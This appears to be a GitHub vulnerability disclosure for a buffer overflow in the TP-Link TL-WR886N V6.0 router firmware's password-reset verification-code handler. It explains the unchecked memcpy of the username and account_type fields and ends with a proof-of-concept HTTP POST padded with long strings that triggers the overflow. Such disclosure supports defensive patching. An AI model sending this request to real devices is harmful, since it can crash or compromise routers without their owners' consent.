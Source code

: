 # TP-LINK WR-886N Vulnerability
This vulnerability is on the /cloud_config/router_post/get_reset_pwd_veirfy_code interface and affects the latest version of the router operating system (which is a different RTOS system from the linux operating system), and the firmware version is TL-WR886N V6.0 upgrade software 20190826 2.3.8
## Vulnerability description
There is a buffer overflow vulnerability on the /cloud_config/router_post/get_reset_pwd_veirfy_code interface.

1. An interface ```/cloud_config/router_post/get_reset_pwd_veirfy_code``` is registered first in the getResetVeriRegister function.
![](./getResetVeriRegister1.png)
2. In the handler, the v7 variable is the ```username``` field in the packet, and the v9 variable is the ```account_type``` field in the packet. Then directly memcpy to the a3 variable refers to the address space, there is a buffer overflow problem.
![](./getResetVeriRegister2.png)
## poc
```
POST /cloud_config/router_post/get_reset_pwd_veirfy_code HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&account_type=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```
## Acknowledgment 
Credit to [@Yu3H0](https://github.com/Yu3H0/) ,[@leonW7](https://github.com/leonW7), [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.